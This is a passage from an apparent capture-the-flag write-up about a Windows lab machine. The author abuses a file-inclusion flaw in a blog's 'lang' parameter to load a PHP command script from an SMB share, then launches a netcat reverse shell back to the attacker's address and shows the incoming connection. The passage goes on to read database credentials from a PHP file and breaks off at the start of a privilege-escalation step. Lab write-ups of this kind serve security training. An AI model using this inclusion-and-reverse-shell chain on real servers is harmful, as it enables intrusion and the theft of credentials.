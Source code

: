 To get a shell, I’ll just include a command to run `nc64.exe` from the same
Samba share:

    
    
    root@kali# curl -s -G 'http://10.10.10.151/blog/' --data-urlencode 'lang=\\10.10.14.6\share\cmd.php' --data-urlencode 'cmd=\\10.10.14.6\share\nc64.exe -e cmd 10.10.14.6 443'
    

And I get a callback:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.151.
    Ncat: Connection from 10.10.10.151:57204.
    Microsoft Windows [Version 10.0.17763.678]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\inetpub\wwwroot\blog>whoami
    whoami
    nt authority\iusr
    

## Priv: iusr –> Chris

### Enumeration

Looking around, there are creds for the database in the PHP:

    
    
    C:\inetpub\wwwroot\user>type db.php
    type db.php
    <?php
    // Enter your Host, username, password, database below.
    // I left password empty because i do not set password on localhost.
    $con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
    // Check connection
    if (mysqli_connect_errno())
      {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
      }
    ?>
    

### Runas

I know the other user on the box is Chris from the `\users\` directory, so
I’ll try to run as them using PowerShell. First I’ll open PowerShell:

    
    
    C:\>powershell
    
    Windows PowerShell
    Copyright (C) Microsoft Corporation. All rights reserved.
    